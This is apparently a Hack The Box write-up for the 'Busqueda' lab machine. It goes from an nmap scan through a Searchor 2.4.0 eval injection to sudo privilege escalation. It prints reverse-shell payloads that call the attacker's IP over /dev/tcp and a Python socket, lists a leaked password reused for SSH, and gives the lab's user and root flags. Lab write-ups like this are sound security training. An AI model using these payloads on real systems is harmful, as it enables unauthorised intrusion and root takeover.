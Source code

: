 # About

- Operating System: Linux
- Point Value: 30 Total (20 System and 10 for User)
- Level: Easy
- Target IP Address: 10.129.138.207

# Vulnerabilities

- Reserve Shell Exploit

# Walkthrough

## HTB Pwnbox (Parrot)

Open Terminal and then do an nmap scan. `nmap -sV 10.129.138.207`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b5b62aff-a5f7-48a9-9d72-dab6f029c389/Untitled.png)

This nmap scan shows port 80 is open which we can use. When opening the browser go to `10.129.138.207` , it re-directs to `searcher.htb` . 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/627f93b5-7c3f-44ba-bd35-70ba5e1d287f/Untitled.png)

It is necessary to modify the /etc/hosts. To do this, you will need to do `sudo nano /etc/hosts` and then add `10.129.138.207 searcher.htb`. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/987063fa-08af-4536-8b2f-3146120ad842/Untitled.png)

*Note: If you try accessing /etc/hosts just by doing `nano /etc/hosts` to modify and save, you get a Permission denied message.*

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3580f088-1262-48a5-b18a-e9f0caa90f87/Untitled.png)

After successfully exiting and saving /etc/hosts, go back to the browser and try accessing `10.129.138.207` again. The site comes up and shows the following:

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f18014d4-7a02-442d-8906-04082f9fa6bc/Untitled.png)

When scrolling to the very bottom, I saw “Powered by Flash and Searchor 2.4.0”

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/74fb4379-b0a3-4a5b-b1fc-619eaf4821a6/Untitled.png)

When doing a search for “Searchor 2.40 exploit”, I found the following [GitHub](https://github.com/jonnyzar/POC-Searchor-2.4.2). I can then go back to my terminal and do a `git clone https://github.com/jonnyzar/POC-Searchor-2.4.2.git` .

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f842d638-4aaa-4d65-859a-118dca727055/Untitled.png)

After download complete, I can confirm by doing a `ls` and see POC-Searchor-2.4.2 is saved. I can then change directory (`cd POC-Searchor-2.4.2`) and run another `ls` to see the items listed there.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e7ae5242-630d-46c2-8c6f-546126855000/Untitled.png)

I can then did `cat [README.md](http://README.md)` to read the file. When reading the file, it mentions Python eval. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ac853081-a7c0-4431-ade7-73648c5e3908/Untitled.png)

So I did some research and found a site that mentions [Arbitrary Code Execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/). I copied the code under Reverse Shell `__import('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/45dfe8da-299b-46b6-81f8-3dec04d2be9b/Untitled.png)

I then had to modify this code by adding `'),` , modifying the IP address to `10.10.14.12` (which is my computer) and adding at the end a space and `#` . This is how the whole thing looked like: `'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.12/4444 0>&1"') #` . I found this by doing combinations of the Arbitrary Code Execution listed above the Reverse Shell.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dedcaece-de9a-41ad-a8e7-c4c179460363/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/70cd94b4-319b-454c-a7f8-2416173ea81e/Untitled.png)

After typing in my terminal `nc -lvnp 4444` and then clicking “Search”, the following showed on my terminal. I also typed `whoami` to confirm.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7faa7cc1-c012-4ddc-ba17-9eaed4a95e88/Untitled.png)

I then ran the following commands: `ls -la` `cd .git` `ls -la` 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5dfe3d11-f4f0-4365-aae4-9a0b4d50d3d5/Untitled.png)

After running `cat config` , I came across the following. `jh1usoih2bkjaspwe92` turns out is the password

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5cecbca6-f778-4441-be47-b4def3aa8cad/Untitled.png)

I created a second terminal session and did `ssh svc@10.129.138.207` . When prompted for the ECDSA key fingerprint, typed`yes` . For the password, I put `jh1usoih2bkjaspwe92` .

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0a38ec09-f797-4075-b5b9-7e06c337bf93/Untitled.png)

I used the command`whoami` to confirm.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/149e5f46-8440-405f-86f9-fbc084e2fa1f/Untitled.png)

When running `ls -la` , I saw the file `user.txt`. So I can `cat user.txt` and found the user flag.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f71c4a83-5ab0-4e66-bf5c-c0d9067e3e3a/Untitled.png)

User Flag: `8bae7d0bac9792fcb1a6fc7bedf96360`

I went ahead and ran `sudo -l` to see check commands. I see the command `/usr/bin/python3 /opt/scripts/system-checkup.py *` and ran it. Again, it prompted for the password `jh1usoih2bkjaspwe92` .

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c430f45e-bd9d-4a34-9732-b8e1a2f31099/Untitled.png)

I ran the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py *` and then the password `jh1usoih2bkjaspwe92` .

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dd400596-cf03-4ceb-935c-263cb55fe372/Untitled.png)

I ran `cd /opt/scripts` and `ls` and saw full-checkup.sh

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a2a18672-58e5-4eff-b3c1-a82204110b2c/Untitled.png)

I executed `cd -` and `touch [full-checkup.sh](http://full-checkup.sh)` to download the file.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f3c82fb9-3308-4ad6-9d15-3da3cd3f28be/Untitled.png)

I research Python Privilege Escalation and found [this](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/) that executes a reverse shell.

`import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")` . I would need to modify to remove “<local-ip>” to replace it with my machine IP address.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/91f8bc91-c464-40db-861f-5b6700e4476b/Untitled.png)

I opened another terminal (third one if you are counting) and ran `nano [full-checkup.sh](http://full-checkup.sh)` to modify the file.

`#!/usr/bin/python3`
`import socket,os,pty;s=socket.socket();s.connect(("10.10.14.12",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1d96fb74-9758-4854-9606-73c0b8f69a0c/Untitled.png)

*Hint: If you don’t like nano, you can also use gedit. You may need to install it first by running `sudo apt-get install gedit` and then `gedit [full-checkup.sh](http://full-checkup.sh)` to modify the file.*

Once you save and exit, you will need to start a server by running `python -m http.server`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa851108-84bd-4df4-b0a9-dc6147e4fc3d/Untitled.png)

Switching back to the second terminal, you need to run a wget to pull the file. `wget http://10.10.14.12:8000/full-checkup.sh`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/64ca4411-2f76-4f4b-9632-4d8ad93be65d/Untitled.png)

You can see on the third terminal shows the `get`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5af0e0fd-ea08-435d-b8e4-aebf0577e863/Untitled.png)

On the second terminal, need to modify the permission of the file using `chmod +x full-checkup.sh`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b96494c7-046f-48ff-908f-fb4f3fe0f0de/Untitled.png)

Now on the fourth terminal (don’t worry, this is the last one), I ran `sudo su` and `nc -lnvp 4444`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6f100457-5ff6-40a6-927f-6971c79ac659/Untitled.png)

I switched back to my second terminal and execute the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` . It again requested the password (same thing as above). 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5d73eae2-00ee-42a9-a088-80a5f077e9a9/Untitled.png)

*Hint: If you get an error here, you didn’t something wrong.*

Switching back over to my fourth terminal, I have root@busqueda access. I also ran `whoami` to confirm. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c4c191e3-80ee-4d89-9098-4e6ba1f40f78/Untitled.png)

I then did `cd /root` , `ls -la` and saw the `root.txt` file. So I ran `cat root.txt` and got the root flag.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c3dabc54-3d3f-446e-a287-84488801b0c2/Untitled.png)

# Flag

User Flag: `8bae7d0bac9792fcb1a6fc7bedf96360`

Root Flag: `4e40b0065928fb42069eb24c0c647ddc`
